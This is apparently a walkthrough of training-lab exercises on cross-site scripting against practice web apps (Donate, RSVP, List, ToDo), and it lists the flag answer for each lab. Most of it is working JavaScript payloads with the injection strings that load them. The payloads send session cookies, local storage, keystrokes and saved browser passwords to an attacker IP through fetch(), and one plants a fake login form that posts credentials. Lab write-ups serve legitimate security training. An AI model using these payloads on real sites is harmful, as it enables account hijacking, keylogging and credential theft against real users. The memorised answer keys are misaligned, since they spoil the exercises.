# **Cross-Site Scripting - Exploitation**

#### **Stealing Session Cookies**
#### **Lab 1.** Steal the session cookie using the "Use Non-HttpOnly Cookie" setting from the Donate application using the techniques taught here. The flag is in the format OS{...} without any spaces.

Answer - OS{c506a15c451370f390df8bee42cb6963}

- Create a xss.js file on kali machine and host it.
```
let  cookie = document.cookie
let encodedCookie = encodeURIComponent(cookie)
fetch("http://192.168.45.174:80/exfil?data="+encodedCookie)
```
- Start the HTTP server.
```
python3 -m http.server 80
```

   

- Go to Donate application. Check Use Non-HttpOnly Cookie.

- In url, enter below payload for the name parameter.
```
<script src="http://192.168.45.174/xss.js"></script>
```

  

- Now press render, check the HTTP server logs. You can see the flag which you need to decode as URL.

  

  


#### **Lab 2.** Steal the session cookie using the "Use Non-HttpOnly Cookie" setting from the RSVP application using the techniques taught here.

Answer - OS{61eef285ddb9ee6ac77f8f21510fa83d}

  

  

  

  


#### **Lab 3.** Steal the session cookie using the "Use Non-HttpOnly Cookie" setting from the List application using the techniques taught here.

Answer - OS{98256e4b119800c9ed4a67a899f32538}

- Payload
```

```

- Now just append the payload to any name.



- Click on share.



- Now paste the copied test in the url ,click on go and then render button.



- Check the HTTP server logs. You can see the flag which you need to decode as URL.

  

 


#### **Lab 4.** Steal the session cookie using the "Use Non-HttpOnly Cookie" setting from the ToDo application using the techniques taught here.

Answer - OS{58256e4b119800c9ed4a67a899f32538}

- Add below payload to add a new Task in TODO application.

```
Test XSS<script src="http://192.168.45.174/xss.js"></script>
```
- Click on render.


- Check the hTTP server logs. You can see the flag which you need to decode as URL.






#### **Stealing Local Secrets**
#### **Lab 1.** Steal the local storage contents using the "Data in Local Storage" setting from the Donate application using the techniques taught here.

Answer - OS{c5d0e39f1077197d81f889bd22c09f42}

- Create a xss_local_storage.js file on kali machine and host it.
```
let data = JSON.stringify(localStorage)
let encodedData = encodeURIComponent(data)
fetch("http://192.168.45.174/exfil?data="+encodedData)
```
- Start the HTTP server.
```
python3 -m http.server 80
```

   

- Go to Donate application. Check Data in local storage.

- In url, enter below payload for the name parameter.
```
<script src="http://192.168.45.174/xss_local_storage.js"></script>
```

  

- Now press render, check the HTTP server logs. You can see the flag which you need to decode as URL.

  

  


#### **Lab 2.** Steal the session cookie using the "Use Non-HttpOnly Cookie" setting from the RSVP application using the techniques taught here.

Answer - OS{e5eaa331805d532c12a0477b4d8d9eea}

Payload:
```
<script src="http://192.168.45.174/xss_local_storage.js"></script>
```

  

  

  


#### **Lab 3.** Steal the local storage contents using the "Data in Local Storage" setting from the List application using the techniques taught here.

Answer - OS{a5014a1243addd902fe8da8f7c582811}

- Payload
```

```

- Now just append the payload to any name.



- Click on share.



- Now paste the copied test in the url ,click on go and then render button.


- Check the HTTP server logs. You can see the flag which you need to decode as URL.

  

 


#### **Lab 4.** Steal the local storage contents using the "Data in Local Storage" setting from the ToDo application using the techniques taught here.

Answer - OS{0f247ca358e49b01f2055fdf7acc5b6a}

- Add below payload to add a new Task in TODO application.

```
Test XSS<script src="http://192.168.45.174/xss_local_storage.js"></script>
```
- Click on render.


- Check the hTTP server logs. You can see the flag which you need to decode as URL.





#### **Keylogging**
#### **Lab 1.** Key log the user on the Donate application with the "Simulate key strokes" setting checked. The flag is in the format OS{...} without spaces.

Answer - OS{ad1feb830989f5c715f94deb1c09dbbf}

- Host below payload in a xss_keylogging.js file.
```
function logKey(event){
        fetch("http://192.168.45.174/k?key=" + event.key)
}

document.addEventListener('keydown', logKey);

```

- Start the HTTP server.
```
python3 -m http.server 80
```




- Go to Donate application. Check Simulate Keystrokes.

- In url, enter below payload for the name parameter.
```
<script src="http://192.168.45.174/xss_keylogging.js"></script>
```

  

- Now press render, check the HTTP server logs. You can see the flag in logs.

  

  

#### **Stealing Saved Passwords**
#### **Lab 1.** Steal the saved password from the RSVP application using the "Use stored password" setting and the techniques taught here.

Answer - OS{ShavedHeadsFTW}

- Host below payload in a xss_steal_saved_password.js file.
```
let body = document.getElementsByTagName("body")[0]
// Create username input
var usernameInput = document.createElement('input');
usernameInput.type = 'text';
usernameInput.className = 'form-control';
usernameInput.id = 'signin_userName';
usernameInput.name = 'signin_userName';

// Create password input
var passwordInput = document.createElement('input');
passwordInput.type = 'password';
passwordInput.className = 'form-control';
passwordInput.id = 'signin_password';
passwordInput.name = 'signin_password';

// Append to a container (e.g., body or a specific div)
body.append(usernameInput)
body.append(passwordInput)

setTimeout(function(){ 
  fetch("http://192.168.45.174:80/k?username=" + usernameInput.value + "&password=" + passwordInput.value)
}, 5000);
```

- Start the HTTP server.
```
python3 -m http.server 80
```


- Go to RSVP application. Check Use stored password.

- Enter below payload for the no of guest parameter.
```
<script src="http://192.168.45.174/xss_steal_saved_password.js"></script>
```

  

- Click submit, Now press render, check the HTTP server logs. You can see the flag in logs.

  

  


#### **Phishing Users**
#### **Lab 1.** Phish the user on the List application using the "Blindly enter credentials" setting and the techniques taught here. A login page doesn't exist on the List application, so a custom one will need to be created. Submit the password in the format OS{...} as the answer.

Answer - OS{j0hnnydonthax}

- Host below payload in a xss_phishing_login_form.js file.
```
document.getElementsByTagName("html")[0].innerHTML = `
  <html>
    <body>
      <h2>Please log in</h2>
      <form action="http://192.168.45.174:80" method="GET">
        <label>Username: <input type="text" name="username" /></label><br/>
        <label>Password: <input type="password" name="password" /></label><br/>
        <input type="submit" value="Login" />
      </form>
    </body>
  </html>
`;
```

- Start the HTTP server.
```
python3 -m http.server 80
```




- Go to List application. Check Blindly enter credentials.

- Now just append the payload to any name.
```

```


- Click on share.



- Now paste the copied test in the url ,click on go and then render button.



- Check the HTTP server logs. You can see the flag which you need to decode as URL.

  

 